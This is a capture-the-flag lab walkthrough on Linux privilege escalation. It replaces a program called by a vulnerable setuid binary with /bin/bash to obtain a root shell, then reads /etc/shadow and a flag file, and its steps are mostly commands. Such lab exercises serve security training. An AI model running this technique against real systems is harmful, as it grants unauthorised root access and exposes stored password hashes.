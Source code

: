 # 1⃣ Exploiting Setuid Programs

Vulnerable [setuid programs](https://en.wikipedia.org/wiki/Setuid) on Linux systems could lead to privilege escalation attacks.In this lab, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in your home directory **welcome** and **greetings** which might be vulnerable.&#x20;

**Your mission:**

1. Get as root shell on the system
2. View /etc/shadow
3. Retrieve the flag.

Note: Development tools e.g. gcc is installed on the system already.



***

### Check for Setuid bit

```
ls -la
```

### Check for strings in welcome binary

```
strings welcome
```

### Try to overwrite greetings binary with /bin/bash

```
cp /bin/bash greetings
```

### Remove greetings binary

```
rm greetings
```

### Copy bash to current directory with name "greetings"

```
cp /bin/bash greetings
```

### Execute the welcome binary

```
./welcome
```

### Retrieve the flag

```
cd /root/
cat flag
```

